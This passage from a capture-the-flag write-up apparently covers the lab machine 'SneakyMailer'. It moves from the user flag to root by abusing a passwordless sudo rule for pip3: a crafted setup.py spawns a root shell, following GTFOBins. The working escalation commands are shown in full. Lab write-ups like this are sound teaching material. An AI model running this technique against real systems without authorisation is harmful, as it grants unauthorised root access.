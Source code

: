 It's time to get that flag:

```bash
low@sneakymailer:~$ cat user.txt
3d**************************7d3a
```

## low → root

---

The first thing I always try is to check if the user can execute anything as root:

```bash
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

I can execute pip as sudo, that is perfect. A quick look at GTFO bin shows me a way to exploit this:

[pip | GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo)

So let's exploit this the way GTFOBins shows me:

```bash
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo /usr/bin/pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.8nIkUcTw9y
# python -c 'import pty;pty.spawn("/bin/bash")'
root@sneakymailer:/tmp/pip-req-build-g0n60hpp# whoami
root
```

And there is the root shell.

### Root Flag

---

Time to get the root flag:

```bash
root@sneakymailer:/# cd root
root@sneakymailer:~# cat root.txt
4d**************************50e6
```
